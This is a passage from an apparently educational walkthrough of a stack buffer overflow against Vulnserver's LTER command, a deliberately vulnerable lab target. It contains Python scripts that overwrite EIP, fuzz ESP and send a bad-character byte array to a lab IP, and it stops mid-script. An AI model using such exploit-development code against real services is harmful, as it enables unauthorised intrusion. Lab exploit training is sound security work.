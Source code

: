 So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets fuzz our ```ESP``` memory to see our data dump on that region

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat fuzz-esp.py                
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP
payload+=b"B"*4
# padding
payload+=b"D"*(2500-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 fuzz-esp.py 
```

After fuzzing, we can see our ESP data in the memory dump after EIP

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-badchar-fuzzesp.png" style="width:40%">
</div>

Lets use it to test for ```bad characters```

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat badchars.py 
import socket, sys
# collection of bad characters except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP
payload+=b"B"*4
# fuzzing badchars on ESP
payload+=badchars
# padding
payload+=b"D"*(2500-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```